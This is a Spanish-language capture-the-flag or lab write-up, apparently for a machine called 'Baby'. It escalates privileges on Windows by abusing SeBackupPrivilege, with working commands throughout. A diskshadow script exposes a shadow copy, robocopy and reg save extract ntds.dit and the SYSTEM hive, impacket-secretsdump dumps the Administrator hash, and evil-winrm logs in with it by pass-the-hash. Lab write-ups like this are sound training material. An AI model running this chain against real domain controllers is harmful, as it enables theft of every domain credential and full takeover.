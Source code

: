 #ntdsdit #SeBackupPrivilege #serestoreprivilage #diskshadow

---
NTDS.DIT con SeBackupPrivilege + SeRestorePrivilege
Vamos a copiar el archivo ntds para luego con [[impacket-secretsdump]] dumpear el hash

---

Usamos el comando [[whoami]] con `whoami /all`
Vemos que tenemos los permisos de SeBackupPrivilege + SeRestorePrivilege


Con [[nvim]] vamos crear un archivo con el siguiente contenido y lo vamos a poner en un archivo que se llama exploit.txt

```
set context persistent nowriters
set metadata c:\programdata\df.cab
set verbose on
add volume c: alias df
create
expose %df% z:
```

Ahora con [[unix2dos]] usando `unix2dos exploit.txt` para que reconozca bien los finales de linea y lea todo el contenido, ya que cuando lo ejecutaba sin pasarle el unix2dos no me detectaba todo el codigo
![[Baby24.png]]
Vamos a subir el archivo *exploit.txt* usando el comando `upload exploit.txt` que tiene [[evil-winrm]]
Con el comando `diskshadow /s exploit.txt` vamos a ejecutar las instrucciones tenemos en el exploit.txt
![[Baby25.png]]
Ya se nos creo una nueva particion que es la *z* donde esta el archivo *ntds.dit* ubicado en *z:/Windows/ntds/ntds.dit*


En la particion de *C:* cree una carpeta con [[mkdir]] usando el comando `mkdir tmp` que se llama tmp para trabajar en ese directorio mas comodamente. y con [[cd]] usamos ``cd C:/tmp`` ya nos vamos a quedar en el directorio
Con la herramienta [[robocopy]] vamos a usar el comando `robocopy /B z:\Windows\NTDS . ntds.dit` para copiar el archivo ntds.dit al directorio actual de trabajo que en este caso es la carpeta tmp


![[Baby28.png]]

![[Baby29.png]]
con `download ntds.dit` vamos a descargar el archivo a nuestra maquina de atacante

Vamos a usar `reg save hklm\system c:\tmp\system` para guardar un archivo de la rama del registro de windows
![[Baby27.png]]
Y despues con `download system` vamos a descargar el archivo a nuestra maquina de ata cante
# Con [[impacket-secretsdump]] vamos a dumpear el hash del usuario administrator

```
sudo impacket-secretsdump -system system -ntds ntds.dit LOCAL
```

![[Baby32.png]]
Obtenemos las credenciales administrator:ee4457ae59f1e3fbd764e33d9cef123d

Ahora con [[evil-winrm]] nos vamos a conectar 
``evil-winrm -i baby.vl -u "Administrator" -H "ee4457ae59f1e3fbd764e33d9cef123d" -P 5985``
![[Baby30.png]]
Ya podemos catear la flag